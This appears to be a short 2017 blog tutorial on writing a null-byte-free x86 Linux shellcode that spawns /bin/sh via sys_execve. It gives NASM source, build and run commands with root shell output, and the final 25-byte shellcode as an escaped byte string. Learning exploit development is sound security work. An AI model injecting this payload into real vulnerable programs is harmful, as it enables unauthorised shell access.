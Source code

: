 ```yaml
---
layout: post
title:  "Creating a simple x86 shellcode"
date:   2017-09-17 01:51:00
disqus: true
categories: Reversing
---
```

It's a simple x86 shellcode to call /bin/sh, but the first thing is understand how the sys_execve works, to do so you can access this <a href="https://syscalls.kernelgrok.com/" target="_blank">site</a> that gives to you a list with all the x86 syscalls, and the values you need to put in each register, just search for sys_execve.

The initial code bellow have all the comments to make it easy to understand how to use the sys_execve,

{% highlight Bash %}
section .data:
	cmd: db "/bin/sh",0x0
section .text:
	global _start
	_start:
		mov eax,0x0b	;use sys_execve
		mov ebx,cmd	;first arg, file to execute
		mov edx,0x0	;first parameter no usage
		mov ecx,0x0	;second parameter no usage
		int 0x80	;kernel interrupt
{% endhighlight %}

Just to test this code, lets compile it, link and execute the binary shell to get the /bin/sh

{% highlight Bash %}
root@demoniware:~/shellcode# nasm -f elf32 sh3llc0d3.asm && ld -m elf_i386 -s -o shell sh3llc0d3.o
root@demoniware:~/shellcode# ./shell
# id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

But this code is not nullbyte free and it's a problem when we are working with shellcodes, so with some work I got this code,

{% highlight Bash %}
xor eax,eax 		; zero to eax
push eax 				; put 0 in stack, end of string
push 0x68732f6e ; part of /bin/sh
push 0x69622f2f ; part of /bin/sh
mov ebx,esp			; mov /bin/sh to ebx
push eax				; put NULL on argv
push ebx				; put filename on stack
mov ecx, esp		; put filename to ecx
xor edx,edx			; envp = NULL
mov al,0x0b			; 0x0b to call sys_execve
int 0x80				; kernel interrupt
{% endhighlight %}

To confirm if my code is free of nullbytes, I used this site <a href="https://defuse.ca/online-x86-assembler.htm#disassembly" target="_blank">defuse.ca</a>, that translate asm instructions to opcodes or just use objdump, and now I have a shellcode free of nullbytes with 25 bytes because the shellcode does not need the prologue

{% highlight Bash %}
\x31\xC0\x50\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\x50\x53\x89\xE1\x31\xD2\xB0\x0B\xCD\x80
{% endhighlight %}

### Thanks to @thiagopeixoto for the help
